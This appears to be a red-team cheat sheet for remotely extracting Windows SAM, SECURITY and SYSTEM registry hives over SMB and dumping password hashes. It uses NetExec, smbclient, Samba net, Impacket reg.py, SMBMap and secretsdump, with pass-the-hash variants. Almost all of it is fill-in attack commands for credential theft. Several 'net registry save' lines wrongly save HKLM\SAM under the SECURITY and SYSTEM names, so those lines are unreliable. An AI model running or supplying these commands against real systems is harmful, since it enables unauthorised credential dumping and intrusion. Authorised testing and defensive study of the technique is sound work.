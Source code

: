 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #staying-off-the-land #windows

## 01 - Search hive files

### 1.1 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"

$ netexec smb <IP> -u <username> -H <nt_hash> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"
```

## 02 - Enumerate hive files

Using `smbcacls` to enumerate the existing files.

```
$ cat hive_files.txt
Windows/System32/config/SAM
Windows/System32/config/SECURITY
Windows/System32/config/SYSTEM
Windows/Repair/SAM
Windows/Repair/SYSTEM

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>%<password>" //<IP>/C$ $line 2>/dev/null; done < hive_files.txt

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ $line 2>/dev/null; done < hive_files.txt
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls Windows/System32/config/SAM

smb: \> ls Windows/System32/config/SECURITY

smb: \> ls Windows/System32/config/SYSTEM
```

## 03 - Extract hive files

### 3.1 - Samba Suite Utils

TODO: Modify the permissions with `smbcacls` in order to download them

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ -c "get Windows/System32/config/SAM; get Windows/System32/config/SECURITY; get Windows/System32/config/SYSTEM"
```

### 3.2 - NetCommands

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>%<password>" -S <IP>
```

Pass The Hash

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 3.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SAM" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SECURITY" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SYSTEM" -o "\\\\<IP>\\c$\\windows\\temp\\"
```

### 3.4 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SAM SAM

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SECURITY SECURITY

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SYSTEM SYSTEM
```

### 3.5 - SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP>
--download "C$\Windows\System32\config\SAM"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP>
--download "C$\Windows\System32\config\SECURITY"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP>
--download "C$\Windows\System32\config\SYSTEM"
```

## 04 - Hashdump

Instead of storing the hashes on the compromised target use the **file transfer techniques.** Once that the process is done we can dump the hashes using one of the impacket scripts called `secretsdump`. The syntax for the tool:

```
$ secretsdump.py -sam /path/to/sam_hive_file -system /path/to/system_hive_file local

$ secretsdump.py -sam /path/to/sam_hive_file -security /path/to/security_hive_file -system /path/to/system_hive_file local
```

---
## References

- [Samdump2](https://salsa.debian.org/pkg-security-team/samdump2)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
